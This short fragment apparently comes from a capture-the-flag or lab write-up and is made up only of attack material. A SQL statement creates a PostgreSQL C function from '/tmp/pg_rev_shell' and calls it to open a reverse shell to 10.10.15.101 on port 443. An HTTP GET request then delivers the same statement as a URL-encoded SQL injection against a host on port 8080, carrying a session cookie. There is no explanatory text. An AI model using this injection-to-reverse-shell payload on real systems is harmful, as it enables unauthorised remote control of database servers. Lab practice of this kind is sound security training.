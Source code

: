 ```sql
DROP FUNCTION IF EXISTS rev_shell;CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;SELECT rev_shell('10.10.15.101', 443);
```




```post
GET /?q=%25'%20or%201%3d1%3bDROP%20FUNCTION%20IF%20EXISTS%20rev_shell%3bCREATE%20FUNCTION%20rev_shell(text%2c%20integer)%20RETURNS%20integer%20AS%20'%2ftmp%2fpg_rev_shell'%2c%20'rev_shell'%20LANGUAGE%20C%20STRICT%3bSELECT%20rev_shell('10.10.15.101'%2c%20443)-- HTTP/1.1
Host: 10.129.90.227:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://10.129.90.227:8080/
Cookie: auth=eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJkaWNrZXIiLCJpYXQiOjE2OTQ2NzA2NzMsImV4cCI6MTY5NDY3OTMxM30.oz14fUbFzojwhXGAYhontXN12HljZCx9EedAwBeJu7pDaFUksus43Ctg2wCSu3MXmMdL2q8cJ2k8TXtf37O3ZA
Upgrade-Insecure-Requests: 1
```
